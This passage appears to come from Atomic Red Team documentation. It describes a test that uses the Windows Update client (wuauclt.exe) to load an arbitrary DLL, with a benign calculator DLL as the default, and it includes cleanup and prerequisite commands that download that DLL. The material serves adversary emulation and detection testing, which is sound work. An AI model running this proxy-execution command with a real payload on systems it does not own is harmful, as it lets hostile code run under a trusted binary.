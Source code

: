 ##### Get Prereq Commands:

```powershell
echo "DiskShadow.exe not found on disk at expected location"
```

<br/>
<br/>

## Atomic Test #9 - Load Arbitrary DLL via Wuauclt (Windows Update Client)

This test uses Wuauclt to load an arbitrary DLL. Upon execution with the default inputs, calculator.exe will be launched.
See https://dtm.uk/wuauclt/

**Supported Platforms:** Windows

**auto_generated_guid:** 49fbd548-49e9-4bb7-94a6-3769613912b8

#### Inputs:

| Name          | Description              | Type   | Default Value                                      |
| ------------- | ------------------------ | ------ | -------------------------------------------------- |
| arbitrary_dll | Path of DLL to be loaded | string | PathToAtomicsFolder&#92;T1218&#92;bin&#92;calc.dll |

#### Attack Commands: Run with `command_prompt`!

```cmd
wuauclt.exe /UpdateDeploymentProvider "#{arbitrary_dll}" /RunHandlerComServer
```

#### Cleanup Commands:

```cmd
taskkill /f /im calculator.exe > nul 2>&1
```

#### Dependencies: Run with `powershell`!

##### Description: DLL to load must exist on disk as specified location (#{arbitrary_dll})

##### Check Prereq Commands:

```powershell
if (test-path "#{arbitrary_dll}"){exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{arbitrary_dll}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218/bin/calc.dll?raw=true" -OutFile "#{arbitrary_dll}"
```
